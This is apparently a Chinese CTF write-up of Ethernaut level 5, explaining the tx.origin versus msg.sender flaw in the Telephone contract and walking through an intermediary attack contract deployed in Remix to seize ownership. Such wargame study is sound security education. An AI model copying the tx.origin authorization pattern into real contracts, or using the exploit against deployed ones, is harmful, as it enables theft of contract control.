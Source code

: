 # Ethernaut做题笔记(第五题)

## 1.题目要求

获得下面合约来完成这一关

 这可能有用

- 参阅帮助页面,在 ["Beyond the console"](https://ethernaut.openzeppelin.com/help) 部分



## 2.题目代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```



## 3.合约分析

前面是个构造函数，把owner赋给了合约的创建者，照例看了一下这是不是真的构造函数，确定没有问题，下面一个changeOwner函数则检查tx.origin和msg.sender是否相等，如果不一样就把owner更新为传入的owner。

这里涉及到了tx.origin和msg.sender的区别，前者表示交易的发送者，后者则表示消息的发送者，如果情景是在一个合约下的调用，那么这两者是木有区别的，但是如果是在多个合约的情况下，比如用户通过A合约来调用B合约，那么对于B合约来说，msg.sender就代表合约A，而tx.origin就代表用户，知道了这些那么就很简单了，和上一个题目一样，我们这里需要另外部署一个合约来调用这儿的changeOwner



## 4.攻击合约

```solidity
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
contract exploit {

    Telephone target = Telephone(your instance address);

    function hack(){
        target.changeOwner(msg.sender);
    }
}
```



## 5.攻击流程

获取一个新实例，输入``await contract.address``查看合约地址

![iOlYiA.png](https://i.328888.xyz/2023/04/03/iOlYiA.png)



再将上述获取到的地址替换Telephone_test.sol中的地址

![iOwdgd.png](https://i.328888.xyz/2023/04/03/iOwdgd.png)



在remix中编译并部署该合约

deploy时，ENVIRONMENT需要选择Injected Provider-MetaMask,CONTRACT需要选择第二个exploit

如果选择第一个合约，那么在后面攻击时，就没有hack函数（这里第一次做的时候做错了）

![iOwKFk.png](https://i.328888.xyz/2023/04/03/iOwKFk.png)

![iOwLQL.png](https://i.328888.xyz/2023/04/03/iOwLQL.png)



再输入命令查看合约的owner地址：``await contract.owner()``

![iOwaLv.png](https://i.328888.xyz/2023/04/03/iOwaLv.png)



之后在remix里点击hack来实施攻击

![iOwQn3.png](https://i.328888.xyz/2023/04/03/iOwQn3.png)



之后再次输入命令查看，发现成变换合约的owner，并提交该实例：``await contract.owner()``

![iO2lGA.png](https://i.328888.xyz/2023/04/03/iO2lGA.png)
